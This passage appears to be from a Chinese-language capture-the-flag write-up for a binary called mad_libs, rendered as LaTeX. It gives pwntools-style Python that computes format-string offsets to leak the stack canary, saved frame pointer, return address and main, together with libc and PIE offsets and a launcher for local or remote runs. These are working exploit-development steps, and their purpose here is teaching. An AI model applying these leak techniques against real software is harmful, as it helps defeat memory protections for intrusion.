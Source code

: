 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
用 \texttt{ELF()} 讀 offset
而不是把數字寫死，是嚴謹的作法：萬一檔案換了，數字會自動跟著對。

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{BUF\_POS }\OperatorTok{=} \DecValTok{8}                    \CommentTok{\# buf[0] 是 printf 的第 8 個參數（實測）}
\NormalTok{P\_CANARY    }\OperatorTok{=}\NormalTok{ BUF\_POS }\OperatorTok{+} \DecValTok{33}     \CommentTok{\# 41  → [rbp{-}0x8]}
\NormalTok{P\_SAVED\_RBP }\OperatorTok{=}\NormalTok{ BUF\_POS }\OperatorTok{+} \DecValTok{34}     \CommentTok{\# 42  → [rbp]}
\NormalTok{P\_RET       }\OperatorTok{=}\NormalTok{ BUF\_POS }\OperatorTok{+} \DecValTok{35}     \CommentTok{\# 43  → [rbp+8]}
\NormalTok{P\_MAIN      }\OperatorTok{=}\NormalTok{ BUF\_POS }\OperatorTok{+} \DecValTok{39}     \CommentTok{\# 47  → PIE+0x11c9}

\NormalTok{RET\_OFF\_IN\_LIBC }\OperatorTok{=} \BaseNTok{0x2a1ca}      \CommentTok{\# \_\_libc\_start\_call\_main 裡 call main 的下一行}
\NormalTok{MAIN\_OFF\_IN\_PIE }\OperatorTok{=} \BaseNTok{0x11c9}       \CommentTok{\# main}
\end{Highlighting}
\end{Shaded}

推導：\texttt{rbp-\allowbreak{}0x8} 距離 \texttt{rbp-\allowbreak{}0x110}（buf{[}0{]}）是
\texttt{0x108} bytes = 33 個 slot → \texttt{8+33\ \allowbreak{}=\ \allowbreak{}41}。
\texttt{rbp+0} → 34 個 slot → 42；\texttt{rbp+8} → 43；\texttt{rbp+0x28}
→ 41 個 slot → 47。

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{def}\NormalTok{ start():}
    \ControlFlowTok{if}\NormalTok{ REMOTE\_MODE:}
        \ControlFlowTok{return}\NormalTok{ remote(HOST, PORT)}
    \ControlFlowTok{return}\NormalTok{ process([}\StringTok{"./ld{-}linux{-}x86{-}64.so.2"}\NormalTok{, }\StringTok{"{-}{-}library{-}path"}\NormalTok{, }\StringTok{"."}\NormalTok{, }\StringTok{"./mad\_libs"}\NormalTok{], cwd}\OperatorTok{=}\NormalTok{HERE)}
\end{Highlighting}
\end{Shaded}

本機用題目附的 loader + libc 跑，\textbf{不 patch 檔案}。
\end{document}
